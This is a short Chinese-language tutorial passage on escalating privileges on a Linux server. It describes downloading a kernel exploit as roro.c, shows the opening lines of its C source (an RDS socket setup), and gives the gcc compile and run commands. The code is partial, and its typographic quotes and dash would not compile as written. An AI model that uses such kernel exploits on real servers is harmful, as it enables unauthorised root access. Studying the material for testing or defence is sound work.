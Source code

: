 (下载exp到服务器并重命名为roro.c)
注：很多linux内核的exp都是C语言开发的,因此我们保存为.c扩展名.
exp roro.c代码如下：

```c
# include <stdio.h>

# include <unistd.h>

# include <stdlib.h>

# include <fcntl.h>

# include <sys/types.h>

# include <sys/socket.h>

# include <netinet/in.h>

# include <errno.h>

# include <string.h>

# include <sys/ptrace.h>

# include <sys/utsname.h>

# define RECVPORT 5555

# define SENDPORT 6666

int prep_sock(int port)
{
int s, ret;
struct sockaddr_in addr;
s = socket(PF_RDS, SOCK_SEQPACKET, 0);
if(s < 0)
{
printf(“[*] Could not open socket.\n”);
exit(-1);
}
memset(&addr, 0, sizeof(addr));
```


通过以上代码我们发现该exp是C语言开发的，我们需要将他编译成elf格式的,命令如下:

```shell
gcc roro.c –o roro
```

接下来执行编译好的exp

```shell
./roro
```
